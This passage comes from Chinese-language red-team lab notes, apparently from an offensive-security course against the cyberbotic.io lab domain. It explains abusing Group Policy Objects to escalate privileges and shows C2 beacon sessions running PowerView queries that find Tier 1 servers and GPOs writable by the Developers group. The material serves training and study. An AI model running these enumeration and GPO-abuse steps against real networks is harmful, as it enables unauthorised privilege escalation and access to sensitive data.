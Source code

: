 从该输出中，我们可以看到1st Line Support域组既可以创建新的 GPO ，也可以将它们链接到多个 OU


如果更多特权用户通过这些 OU 中的任何计算机的身份验证，这可能会导致特权升级

如果我们可以将 GPO 链接到包含敏感文件或数据库服务器的 OU——我们可以使用这些 GPO 访问这些机器，然后访问存储在它们上的数据

```
beacon> powershell Get-DomainComputer | ? { $_.DistinguishedName -match "OU=Tier 1" } | select DnsHostName
[*] Tasked beacon to run: Get-DomainComputer | ? { $_.DistinguishedName -match "OU=Tier 1" } | select DnsHostName
[+] host called home, sent: 517 bytes
[+] received output:
#< CLIXML

dnshostname            
-----------            
srv-1.dev.cyberbotic.io

```



查询用户和/或组可以修改现有 GPO 的实例
```
beacon> powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|WriteOwner" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
[*] Tasked beacon to run: Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|WriteOwner" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
[+] host called home, sent: 1033 bytes
[+] received output:
#< CLIXML


ObjectDN              : CN={AD7EE1ED-CDC8-4994-AE0F-50BA8B264829},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1126



beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1126
[*] Tasked beacon to run: ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1126
[+] host called home, sent: 449 bytes
[+] received output:
#< CLIXML
DEV\Developers

```
